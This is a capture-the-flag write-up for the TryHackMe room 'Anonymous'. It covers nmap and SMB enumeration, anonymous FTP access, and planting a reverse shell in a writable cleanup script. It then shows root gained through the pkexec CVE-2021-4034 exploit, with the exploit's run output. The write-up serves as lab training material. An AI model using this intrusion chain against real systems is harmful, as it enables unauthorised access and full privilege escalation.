 ```yaml
---
title: "Anonymous"
date: 2025-03-26
image: /assets/img/tryhackme/Anonymous_image.jpg
description: Writeup of the TryHackMe-CTF Anonymous
categories: [TryHackMe, Medium]
tags: [linux, ftp, smb, pkexec]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Anonymous</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Not the hacking group</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Medium</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/anonymous">https://tryhackme.com/room/anonymous</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge ###.  

## Enumeration
I started the enumeration using `nmap`:
```bash
kali@kali:~/ctf/anonymous$ nmap -p- 10.10.186.161              
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-26 10:15 EDT
  Nmap scan report for 10.10.186.161
  Host is up (0.043s latency).
  Not shown: 65531 closed tcp ports (conn-refused)
  PORT    STATE SERVICE
  21/tcp  open  ftp
  22/tcp  open  ssh
  139/tcp open  netbios-ssn
  445/tcp open  microsoft-ds

  Nmap done: 1 IP address (1 host up) scanned in 24.46 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
kali@kali:~/ctf/anonymous$ nmap -A -p 21,22,139,445 10.10.186.161
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-26 10:16 EDT
  Nmap scan report for 10.10.186.161
  Host is up (0.043s latency).

  PORT    STATE SERVICE     VERSION
  21/tcp  open  ftp         vsftpd 2.0.8 or later
  | ftp-anon: Anonymous FTP login allowed (FTP code 230)
  |_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
  | ftp-syst: 
  |   STAT: 
  | FTP server status:
  |      Connected to ::ffff:10.21.63.26
  |      Logged in as ftp
  |      TYPE: ASCII
  |      No session bandwidth limit
  |      Session timeout in seconds is 300
  |      Control connection is plain text
  |      Data connections will be plain text
  |      At session startup, client count was 2
  |      vsFTPd 3.0.3 - secure, fast, stable
  |_End of status
  22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
  |   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
  |_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
  139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
  Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Host script results:
  | smb2-time: 
  |   date: 2025-03-26T14:16:56
  |_  start_date: N/A
  | smb-security-mode: 
  |   account_used: guest
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  | smb-os-discovery: 
  |   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
  |   Computer name: anonymous
  |   NetBIOS computer name: ANONYMOUS\x00
  |   Domain name: \x00
  |   FQDN: anonymous
  |_  System time: 2025-03-26T14:16:57+00:00
  |_clock-skew: mean: -6s, deviation: 1s, median: -6s
  | smb2-security-mode: 
  |   3:1:1: 
  |_    Message signing enabled but not required
  |_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 13.48 seconds
```
From here I proceeded the analysis port by port.

## Port 21 Analysis

Since Nmap discovered that the anonymous login was possible, I attempted to connect to the FTP server and was successful: 
```bash
kali@kali:~/ctf/anonymous$ ftp anonymous@10.10.186.161
  220 NamelessOne's FTP Server!
  Password: 
  230 Login successful.
  ftp> ls -al
  drwxr-xr-x    3 65534    65534        4096 May 13  2020 .
  drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
  drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
  ftp> cd scripts
  ftp> ls -al
  drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
  drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
  -rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
  -rw-rw-r--    1 1000     1000          989 Mar 26 14:18 removed_files.log
  -rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
```

I found three files, which I downloaded and analyzed:
```bash
kali@kali:~/ctf/anonymous$ cat to_do.txt        
I really need to disable the anonymous login...it's really not safe

kali@kali:~/ctf/anonymous$ cat clean.sh 
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi

kali@kali:~/ctf/anonymous$ cat removed_files.log 
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

The files didn't provided any further information, so I continued with the next port.

## Port 139 & 445 Analysis

I proceeded by enumerating the system for potential accessible SMB shares using `enum4linux` and received the following output:
```bash
kali@kali:~/ctf/anonymous$ enum4linux 10.10.186.161
  [...]
  Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
  [...]
  //10.10.186.161/pics    Mapping: OK Listing: OK Writing: N/A
```

The share `pics` appeared to be accessible, and I was able to connect successfully to the share using `smbclient`:
```bash
kali@kali:~/ctf/anonymous$ smbclient  -N \\\\10.10.186.161\\pics    
  Try "help" to get a list of possible commands.
  smb: \> ls
    .                                   D        0  Sun May 17 07:11:34 2020
    ..                                  D        0  Wed May 13 21:59:10 2020
    corgo2.jpg                          N    42663  Mon May 11 20:43:42 2020
    puppos.jpeg                         N   265188  Mon May 11 20:43:42 2020
```

I downloaded the files and analyzed them using steganography techniques but wasn't able to extract anything useful:
```bash
kali@kali:~/ctf/anonymous$ steghide --extract -sf corgo2.jpg            
Enter passphrase: 
steghide: could not extract any data with that passphrase!
                                                                                                                                            
kali@kali:~/ctf/anonymous$ steghide --extract -sf puppos.jpeg 
Enter passphrase: 
steghide: could not extract any data with that passphrase!

```
## Shell as namelessone

Since none of the files gave me any clues to gain initial access, I tried modifying files on the FTP server using FileZilla. I started a Netcat listener and inserted a reverse shell payload into the `clean.sh` script. After I pressed save I got the following response:  
```text
File transfer successful, transferred 403 bytes in 1 second
```

While reading this message, my Netcat listener received the reverse shell, and I was able to retrieve the user flag:
```bash
namelessone@anonymous:~$ id
  uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
namelessone@anonymous:~$ cat user.txt
  9[removed]0
```

## Privilege Escalation root
Next, I checked for SUID bits and discoverd that `pkexec` had its SUID bit set. I used the exploit described in <a href="https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py">CVE-2021-4034</a> and successfully gained root access:
```bash
namelessone@anonymous:~$ find / -perm /4000 -type f 2>/dev/null
  [...]
  /usr/bin/pkexec
  [...]
namelessone@anonymous:~$ nano exploit.py
namelessone@anonymous:~$ python3 exploit.py 
  Do you want to choose a custom payload? y/n (n use default payload)  n
  [+] Cleaning pervious exploiting attempt (if exist)
  [+] Creating shared library for exploit code.
  [+] Finding a libc library to call execve
  [+] Found a library at <CDLL 'libc.so.6', handle 7f93d502d000 at 0x7f93d3ad87f0>
  [+] Call execve() with chosen payload
  [+] Enjoy your root shell
# id
  uid=0(root) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
# cat /root/root.txt
  4[removed]3
```

solved! :)